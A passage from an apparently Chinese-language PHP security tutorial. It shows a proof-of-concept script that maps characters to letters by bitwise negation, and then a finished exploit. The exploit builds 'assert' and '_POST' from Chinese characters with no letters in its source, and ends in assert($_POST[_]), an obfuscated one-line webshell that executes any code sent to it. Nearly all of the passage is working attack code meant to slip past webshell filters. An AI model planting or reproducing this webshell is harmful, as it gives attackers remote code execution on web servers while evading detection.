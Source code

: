 ```php
嘴蹄器赠默镜赞篮邀衡膨雕磨凝辨辩糖糕燃澡激懒壁避缴戴擦鞠藏霜霞瞧蹈螺穗繁辫赢糟糠燥臂翼骤鞭覆蹦镰翻鹰警攀蹲颤瓣爆疆壤耀躁嚼嚷籍魔灌蠢霸露囊罐匕刁丐歹戈夭仑讥冗邓艾
夯凸卢叭叽皿凹囚矢乍尔冯玄邦迂邢芋芍吏夷吁吕吆屹廷迄臼仲伦伊肋旭匈凫妆亥汛讳讶讹讼诀弛阱驮驯纫玖玛韧抠扼汞扳抡坎坞抑拟抒芙芜苇芥芯芭杖杉巫杈甫匣轩卤肖吱吠呕呐吟呛
吻吭邑囤吮岖牡佑佃伺囱肛肘甸狈鸠彤灸刨庇吝庐闰兑灼沐沛汰沥沦汹沧沪忱诅诈罕屁坠妓姊妒纬玫卦坷坯拓坪坤拄拧拂拙拇拗茉昔苛苫苟苞茁苔枉枢枚枫杭郁矾奈奄殴歧卓昙哎咕呵咙
呻啰咒咆咖帕账贬贮氛秉岳侠侥侣侈卑刽刹肴觅忿瓮肮肪狞庞疟疙疚卒氓炬沽沮泣泞泌沼怔怯宠宛衩祈诡帚屉弧弥陋陌函姆虱叁绅驹绊绎契贰玷玲珊拭拷拱挟垢垛拯荆茸茬荚茵茴荞荠荤
荧荔栈柑栅柠枷勃柬砂泵砚鸥轴韭虐昧盹咧昵昭盅勋哆咪哟幽钙钝钠钦钧钮毡氢秕俏俄俐侯徊衍胚胧胎狰饵峦奕咨飒闺闽籽娄烁炫洼柒涎洛恃恍恬恤宦诫诬祠诲屏屎逊陨姚娜蚤骇耘耙秦
匿埂捂捍袁捌挫挚捣捅埃耿聂荸莽莱莉莹莺梆栖桦栓桅桩贾酌砸砰砾殉逞哮唠哺剔蚌蚜畔蚣蚪蚓哩圃鸯唁哼唆峭唧峻赂赃钾铆氨秫笆俺赁倔殷耸舀豺豹颁胯胰脐脓逛卿鸵鸳馁凌凄衷郭斋
疹紊瓷羔烙浦涡涣涤涧涕涩悍悯窍诺诽袒谆祟恕娩骏琐麸琉琅措捺捶赦埠捻掐掂掖掷掸掺勘聊娶菱菲萎菩萤乾萧萨菇彬梗梧梭曹酝酗厢硅硕奢盔匾颅彪眶晤曼晦冕啡畦趾啃蛆蚯蛉蛀唬唾
啤啥啸崎逻崔崩婴赊铐铛铝铡铣铭矫秸秽笙笤偎傀躯兜衅徘徙舶舷舵敛翎脯逸凰猖祭烹庶庵痊阎阐眷焊焕鸿涯淑淌淮淆渊淫淳淤淀涮涵惦悴惋寂窒谍谐裆袱祷谒谓谚尉堕隅婉颇绰绷综绽
缀巢琳琢琼揍堰揩揽揖彭揣搀搓壹搔葫募蒋蒂韩棱椰焚椎棺榔椭粟棘酣酥硝硫颊雳翘凿棠晰鼎喳遏晾畴跋跛蛔蜒蛤鹃喻啼喧嵌赋赎赐锉锌甥掰氮氯黍筏牍粤逾腌腋腕猩猬惫敦痘痢痪竣翔
奠遂焙滞湘渤渺溃溅湃愕惶寓窖窘雇谤犀隘媒媚婿缅缆缔缕骚瑟鹉瑰搪聘斟靴靶蓖蒿蒲蓉楔椿楷榄楞楣酪碘硼碉辐辑频睹睦瞄嗜嗦暇畸跷跺蜈蜗蜕蛹嗅嗡嗤署蜀幌锚锥锨锭锰稚颓筷魁衙
腻腮腺鹏肄猿颖煞雏馍馏禀痹廓痴靖誊漓溢溯溶滓溺寞窥窟寝褂裸谬媳嫉缚缤剿赘熬赫蔫摹蔓蔗蔼熙蔚兢榛榕酵碟碴碱碳辕辖雌墅嘁踊蝉嘀幔镀舔熏箍箕箫舆僧孵瘩瘟彰粹漱漩漾慷寡寥
谭褐褪隧嫡缨撵撩撮撬擒墩撰鞍蕊蕴樊樟橄敷豌醇磕磅碾憋嘶嘲嘹蝠蝎蝌蝗蝙嘿幢镊镐稽篓膘鲤鲫褒瘪瘤瘫凛澎潭潦澳潘澈澜澄憔懊憎翩褥谴鹤憨履嬉豫缭撼擂擅蕾薛薇擎翰噩橱橙瓢蟥
霍霎辙冀踱蹂蟆螃螟噪鹦黔穆篡篷篙篱儒膳鲸瘾瘸糙燎濒憾懈窿缰壕藐檬檐檩檀礁磷了瞬瞳瞪曙蹋蟋蟀嚎赡镣魏簇儡徽爵朦臊鳄糜癌懦豁臀藕藤瞻嚣鳍癞瀑襟璧戳攒孽蘑藻鳖蹭蹬簸簿蟹
靡癣羹鬓攘蠕巍鳞糯譬霹躏髓蘸镶瓤矗";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string ); 
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++)
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k;
            break;
        }
    }
}
echo $result;
```
根据上面这个POC，我们可以知道，由"极区区皮十勺"可以得到"assert";由"寸小欠立"可以得到"POST"可以得到一个exp：
```php
<?php
$_++;   //得到1，此时$_=1
$__ = "极";
$___ = ~($__{$_});   //得到a，此时$___="a"
$__ = "区";
$___ .= ~($__{$_});   //得到s，此时$___="as"
$___ .= ~($__{$_});   //此时$___="ass"
$__ = "皮";
$___ .= ~($__{$_});   //得到e，此时$___="asse"
$__ = "十";
$___ .= ~($__{$_});   //得到r，此时$___="asser"
$__ = "勺";
$___ .= ~($__{$_});   //得到t，此时$___="assert"
$____ = '_';   //$____='_'
$__ = "寸";
$____ .= ~($__{$_});   //得到P，此时$____="_P"
$__ = "小";
$____ .= ~($__{$_});   //得到O，此时$____="_PO"
$__ = "欠";
$____ .= ~($__{$_});   //得到S，此时$____="_POS"
$__ = "立";
$____ .= ~($__{$_});   //得到T，此时$____="_POST"
$_ = $$____;   //$_ = $_POST
$___($_[_]);   //assert($_POST[_])
```